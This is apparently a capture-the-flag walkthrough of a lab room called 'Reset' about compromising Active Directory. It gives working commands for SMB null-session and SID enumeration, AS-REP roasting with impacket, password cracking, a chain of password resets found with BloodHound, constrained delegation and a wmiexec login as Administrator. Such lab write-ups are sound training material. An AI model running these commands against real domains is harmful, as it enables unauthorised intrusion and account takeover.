



# Reset

This Room Is About Active Directory Compromising Abusing ASREP-Roasting, ACLs, Delegations.

# Enumeration

## Nmap


```sql
sudo nmap -Pn -T4 -sV -sC -p- -n -sS -oN full_nmap 10.64.181.62
```

## SMB - Null Session

Testing If there is a SMB Null Session to see if there is interesting shares 

```sql
smbclient -L \\\\10.64.181.62\\ -N
```


I connected to the **Data** folder and i saw 3 files.



There is New user mentioned That his password is **ResetMe123!**

And After checking The PDF i found the new username they are talking about


From Now i have username and password ⇒ **LILY ONEILL** : **ResetMe123!**

But the username is not valid so i will build a list of users by the python tool called namesh.py


**Lets Check if something is valid using Kerbrute**


**Nothing intersting so Lets leave this user for now and move on enumerating the usernames since there is a SMB Null Session.**

```sql
impacket-lookupsid anonymous@10.64.181.62 -no-pass
```



**Now lets copy these users on a file and make them clean**

```sql
grep "SidTypeUser" users.txt | cut -d '\' -f2 | cut -d ' ' -f1 > newusers.txt
```


# Exploitation

**Once We have a valid usernames lets now try to perform ASREP-Roasting Attack on them**

```sql
impacket-GetNPUsers thm.corp/ -dc-ip 10.64.181.62 -usersfile newusers.txt -format john -outputfile crackme.txt -no-pass -request
```



**Lets Crack it**


**Pass: marlboro(1985) user: TABATHA_BRITT**

# Lateral Movement

Now Lets use bloodhound


Now Everything is Clean The Work flow of the attack will be as below.

It’s all about resetting passwords, it’s funny xD

**1- TABATHA_BRITT** Changes **SHAWNA_BRAY** Password

**2- SHAWNA_BRAY**  Changes **CRUZ_HALL** Password

**3- CRUZ_HALL** Changes **DARLA_WINTERS** Password

**4- DARLA_WINTERS** Perform ****Constrained ****Delegation on The DC.

Leading to full control on the environment. 


Now Lets Connect and retrieve the flags

```sql
wmiexec.py THM.CORP/Administrator@HAYSTACK.THM.CORP -k -no-pass
```


